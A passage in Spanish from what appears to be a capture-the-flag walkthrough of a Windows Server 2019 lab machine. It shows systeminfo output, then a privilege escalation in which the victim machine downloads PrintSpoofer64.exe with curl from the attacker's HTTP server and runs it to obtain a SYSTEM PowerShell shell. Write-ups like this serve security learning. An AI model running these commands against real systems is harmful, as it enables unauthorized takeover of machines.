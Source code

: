 ```
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 408 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 532 MB
Virtual Memory: In Use:    1,899 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB4534119
                           [02]: KB4516115
                           [03]: KB4523204
                           [04]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.230.172
                                 [02]: fe80::ac5e:e06:17ca:e63c
                                 [03]: dead:beef::ac5e:e06:17ca:e63c
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

Como la versión del sistema es un `Windows Server 2019` no podemos usar el `JuicyPotato`, voy a usar `PrintSpoofer` que es para versiones de `Windows 10` y `Windows Server` versión `2016` y `2019`. Lo primero que debemos hacer es `descargarnos` el `binario` de `64 bits` en nuestro equipo [https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0). Una vez hecho esto nos `montamos` un `servidor http` con `python` en la ruta donde está el binario

```
# python -m http.server 80
```

Nos `descargamos` el `binario` en la máquina víctima

```
c:\Windows\Temp\Privesc>curl -O http://10.10.16.35/PrintSpoofer64.exe
```

Nos convertimos en usuario `Administrator`

```
c:\Windows\Temp\Privesc>PrintSpoofer64.exe -i -c powershell.exe
PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
```
## Privilege Escalation (Second Method)
